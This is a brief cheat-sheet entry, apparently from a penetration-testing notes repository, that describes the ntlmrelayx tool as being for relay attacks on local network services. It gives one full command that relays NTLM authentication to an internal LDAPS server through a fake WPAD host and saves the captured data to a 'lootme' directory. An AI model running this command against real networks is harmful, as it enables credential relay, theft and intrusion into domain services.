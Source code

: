# ntlmrelay

Used for relay attacks against local network services. 

 **Syntax**
 
     ntlmrelayx.py -6 -t ldaps://10.10.7.2 -wh fakewpad.CoffeeDomain.local -l lootme

